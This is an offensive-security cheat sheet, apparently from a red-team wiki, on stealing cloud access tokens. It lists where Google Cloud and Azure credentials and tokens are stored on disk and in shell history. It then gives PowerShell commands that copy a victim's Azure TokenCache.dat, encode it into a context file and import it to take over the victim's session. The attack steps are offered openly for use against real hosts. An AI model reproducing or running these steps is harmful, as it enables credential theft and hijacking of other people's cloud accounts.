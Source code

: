 # Steal Access Tokens

## Steal Access Tokens

### Google Cloud Platform

Json tokens can be used to authenticate with gcloud and ScoutSuite

* google json tokens
* credentials.db

Can be found in `$HOME/.config/gcloud/credentials.db`

### Azure Cloud

Credentials and Certs can be found in 

* `.cspkg` packages
* Visual Studio Publish directory , ie **&lt;project&gt;\bin\debug\publish**
* Azure publish settings files, ie **.publishsettings :**

  * base64 encoded management certificat
  * cleartext creds
  * managementCertificat section in publishsettings file \(export in .pfx file\)
  * Download directory and VS projects

* Web config and App configs \(root folder\).
* Internal code Repo
  * scan web server \(ports 80,443 etc\) and use Eyewitness to screenshot everything to gain time
  * Query add for hostnames and subdomains like

    * git
    * code
    * repo
    * bitbucket
    * gitlab
* Token on the disk in %USERPROFILE%\.azure\ \(TokenCache.dat\) and ssaved json files
* Command history

  * linux = .bash\_history
  * powershell = %USERPROFILE%\Appdata\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost\_history.txt

### Import Stolen Azure Tokens

The victim is using powershell to connect to azure

#### Victim side

* import powershell Az module 

```csharp
Import-Module Az
Connect-AzAccount
```

![](../../../../.gitbook/assets/8203f1d7f66545cf8df57f51bc280f78.png)

#### Attacker side

* On the compromised host, create a folder and copy the victim tokens **TokenCache.dat and AzureRmContext.json**

![](../../../../.gitbook/assets/93572d16e36d4bac9cf08d357910b11d.png)

* Import Az module and list available sessions

```bash
PS C:> import-module az 
PS C:> Get-AzContext -ListAvailable
```

* Convert stolen Token to base64:

```bash
PS C:\> import-module az
PS C:\> Get-AzContext -ListAvailable
PS C:\> $bytes = Get-Content "C:\temp\live_tokens\TokenCache.dat" -Encoding byte
PS C:\> $b64 = [Convert]::ToBase64String($bytes)
PS C:\> Add-Content "C:\temp\live_tokens\b64-token.txt" $b64
```

* Add stolen b64 text content into stolen AzureRmContext.json \(CacheData line\) and save it as "Whatever.json"

![](../../../../.gitbook/assets/5b1b47ee4b4f40ce826ecfff982343ae.png)

* import the stolen token into a new powershell session 

```bash
Import-AzContext -Profile "C:\temp\live_tokens\StolenToken.json"
$context = Get-AzContext
$context.Account
```

![](../../../../.gitbook/assets/4131457a9edb478ea34cb83492f48978.png)



